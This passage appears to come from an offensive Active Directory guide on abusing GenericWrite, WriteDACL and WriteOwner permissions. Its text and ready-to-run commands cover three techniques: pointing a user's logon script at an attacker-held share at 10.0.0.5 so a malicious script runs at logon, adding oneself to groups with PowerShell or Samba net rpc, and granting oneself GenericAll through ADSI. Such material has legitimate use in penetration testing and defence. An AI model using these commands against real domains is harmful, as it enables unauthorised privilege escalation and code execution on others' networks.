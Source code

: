 ## **GenericWrite on User**

This permission allows an attacker to modify user properties. Specifically, with `GenericWrite` access, the attacker can change the logon script path of a user to execute a malicious script upon user logon. This is achieved by using the `Set-ADObject` command to update the `scriptpath` property of the target user to point to the attacker's script.

```bash
Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.ps1"
```

## **GenericWrite on Group**

With this privilege, attackers can manipulate group membership, such as adding themselves or other users to specific groups. This process involves creating a credential object, using it to add or remove users from a group, and verifying the membership changes with PowerShell commands.

```bash
$pwd = ConvertTo-SecureString 'JustAWeirdPwd!$' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('DOMAIN\username', $pwd)
Add-DomainGroupMember -Credential $creds -Identity 'Group Name' -Members 'username' -Verbose
Get-DomainGroupMember -Identity "Group Name" | Select MemberName
Remove-DomainGroupMember -Credential $creds -Identity "Group Name" -Members 'username' -Verbose
```

- From Linux, Samba `net` can add/remove members when you hold `GenericWrite` on the group (useful when PowerShell/RSAT are unavailable):

```bash
# Add yourself to the target group via SAMR
net rpc group addmem "<Group Name>" <user> -U <domain>/<user>%'<pass>' -S <dc_fqdn>
# Verify current members
net rpc group members "<Group Name>" -U <domain>/<user>%'<pass>' -S <dc_fqdn>
```

## **WriteDACL + WriteOwner**

Owning an AD object and having `WriteDACL` privileges on it enables an attacker to grant themselves `GenericAll` privileges over the object. This is accomplished through ADSI manipulation, allowing for full control over the object and the ability to modify its group memberships. Despite this, limitations exist when trying to exploit these privileges using the Active Directory module's `Set-Acl` / `Get-Acl` cmdlets.

```bash
$ADSI = [ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local"
$IdentityReference = (New-Object System.Security.Principal.NTAccount("spotless")).Translate([System.Security.Principal.SecurityIdentifier])
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference,"GenericAll","Allow"
$ADSI.psbase.ObjectSecurity.SetAccessRule($ACE)
$ADSI.psbase.commitchanges()
```
